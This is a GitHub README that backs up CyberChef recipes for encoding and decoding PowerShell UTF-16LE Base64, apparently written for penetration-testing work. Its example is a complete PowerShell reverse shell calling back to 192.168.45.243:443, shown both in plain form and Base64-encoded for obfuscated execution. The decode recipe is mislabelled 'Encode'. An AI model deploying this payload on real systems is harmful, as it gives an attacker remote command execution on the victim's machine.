

[CyberChef](https://github.com/gchq/CyberChef), often referred to as "The Cyber Swiss Army Knife," is a web-based tool that simplifies a wide range of data manipulation operations through a user-friendly interface. This repository serves as a backup for my CyberChef recipes, tailored to streamline encoding, decoding, and analysis tasks. The collection is curated with a focus on practicality and addressing specific needs.

## General Tips
- A live demo of CyberChef is available at https://gchq.github.io/CyberChef. However, it is recommended to download CyberChef and run it entirely client-side. Since it does not require an internet connection (except for certain operations), running it locally ensures that all your data remains secure.
- Avoid trying to force CyberChef into tasks it isn’t designed to handle. While it is incredibly versatile, it is not a fully-fledged programming language!

## Powershell UTF-16LE-Base64
### Encode Powershell UTF-16LE-Base64

Recipe name: `Encode PWSH UTF-16LE Base64`
Recipe:
```powershell
Encode_text('UTF-16LE (1200)')
To_Base64('A-Za-z0-9+/=')
```


### Decode Powershell UTF-16LE-Base64
Recipe name: `Encode PWSH UTF-16LE-Base64`
Recipe:
```powershell
From_Base64('A-Za-z0-9+/=',true,false)
Decode_text('UTF-16LE (1200)')
```


### Example
Before encoding
```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.45.243",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
After encoding
```powershell
JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADQANQAuADIANAAzACIALAA0ADQAMwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=
```

## Credits

- **CyberChef Repository**:  
  This project is based on the open-source **CyberChef** project, maintained by [GCHQ](https://github.com/gchq/CyberChef).  
  You can find the official repository [here](https://github.com/gchq/CyberChef).

- **CyberChef Recipes by MattNotMax**:  
  Some of the recipes in this repository are inspired by the collection of recipes from [MattNotMax's CyberChef Recipes](https://github.com/mattnotmax/cyberchef-recipes).